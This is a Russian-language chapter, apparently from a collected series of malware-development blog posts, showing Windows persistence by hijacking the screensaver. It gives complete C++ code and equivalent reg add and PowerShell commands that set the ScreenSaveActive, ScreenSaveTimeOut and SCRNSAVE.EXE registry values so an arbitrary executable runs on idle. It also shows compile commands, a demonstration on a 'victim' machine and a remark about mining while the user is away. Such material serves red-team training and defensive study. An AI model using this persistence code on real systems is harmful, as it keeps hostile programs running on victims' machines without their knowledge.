










\newpage
\subsection{68. Разработка вредоносного ПО: закрепление (persistence) - часть 2. Захват экранной заставки. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост - вторая часть серии статей о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного трюка закрепления: злоупотребление экранными заставками.    

### экранные заставки

Экранные заставки - это программы, которые запускаются после заданного времени бездействия пользователя. Эта функция Windows давно используется злоумышленниками как метод закрепления. Экранные заставки - это PE-файлы с расширением `.scr` по умолчанию, а их настройки хранятся в следующих ключах реестра:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

{width="80%"}    

Значение `1` включает экранную заставку.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - задаёт    
тайм-аут бездействия пользователя перед запуском экранной заставки.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - устанавливает     
путь к приложению для выполнения.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* из [предыдущей](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) части `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Сохраним его в папку `Z:\\2022-04-26-malware-pers-2\`:    

{width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для запуска `hack.exe` при бездействии пользователя `10` секунд:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новые ключи реестра для тайм-аута и пути к приложению. Ключи реестра можно добавить через терминал `cmd`:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

или с помощью команд `powershell`:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

Но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### Демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Для чистоты эксперимента сначала проверим ключи реестра на машине жертвы и удалим их, если они существуют:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

{width="80%"}    

{width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

{width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы, войдём снова и подождём `10` секунд или просто остаёмся неактивными `10` секунд:    

{width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

{width="80%"}    

### заключение

Проблема этого метода закрепления в том, что сессия завершится, когда пользователь вернётся и система перестанет быть неактивной. Однако красные команды могут выполнять свои операции (например, майнинг) во время отсутствия пользователя. Если экранные заставки отключены групповой политикой, этот метод нельзя использовать для закрепления. Также можно заблокировать выполнение `.scr` файлов из нестандартных мест.

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
